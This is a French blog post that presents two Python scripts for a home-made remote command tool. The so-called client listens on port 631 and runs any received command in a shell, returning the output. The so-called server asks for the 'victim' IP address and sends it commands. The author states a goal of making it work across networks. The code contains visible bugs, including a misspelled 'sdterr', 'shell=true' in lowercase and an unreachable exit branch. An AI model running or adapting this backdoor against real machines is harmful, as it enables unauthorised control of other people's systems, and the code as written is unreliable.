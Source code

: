 ```yaml
---
layout: post
title: Serveur et client en Python
---
```


Voici un premier test, en local, d'une communication entre un serveur et un client en Python. Le but final étant de pouvoir les faire communiquer sur deux réseaux différents.

#### __Le serveur :__

```
#!/bin/env python

#--*-- coding:UTF-8 --*--

import socket
connexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = input("Ip : ")
port = int(input("Port : "))
connexion.connect((host, port))
print("The connection with {} is done.".format(host, port))
started = True

while started:
    choice = int(input(" [1] Command\n [2] Leave\n > "))
    if choice == 1:
        command = input(" Command : ")
        connexion.send(command.encode())
        retour = connexion.recv(1024).decode('latin1')
        print(retour)

        if choice == 2:
            connexion.send("exit")
            connexion.close()
            break
```

&nbsp;

#### __Le client :__

```

#!/bin/env python

#--*-- coding:UTF-8 --*--

import socket
import subprocess

connexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = ''
port = 631
connexion.bind((host,port))
connexion.listen(5)
connexion_client, infos_connexion = connexion.accept()
started = True

while started:
    rcv_cmd = connexion_client.recv(1024)
    rcv_cmd = rcv_cmd.decode()
    if rcv_cmd != "exit":
        cmd = subprocess.Popen(rcv_cmd, shell=true, stdout = subprocess.PIPE, stderr =subprocess.PIPE, stdin = subprocess.PIPE )
        out = cmd.stdout.read() + cmd.sdterr.read()
        connexion_client.send(out)
    else:
        started = False
        conexion.close()
        exit
```


&nbsp;

Si j'execute le client avec la commande `python client.py`, voici le résultat :

![image_1](https://image.noelshack.com/fichiers/2019/37/3/1568187854-python1.jpg)


&nbsp;


Puis j'execute le le serveur qui va me demander l'IP de la victime, le port à utiliser puis les commandes que nous voulons passer : ![image_2](https://image.noelshack.com/fichiers/2019/37/3/1568187978-python2.jpg)


Nous pouvons voir que la commande `ls` me permet de lister le contenu se trouvant sur mon bureau. Le prochain objectif sera d'améliorer ce script pour pouvoir l'éxecuter sur deux réseaux différents.
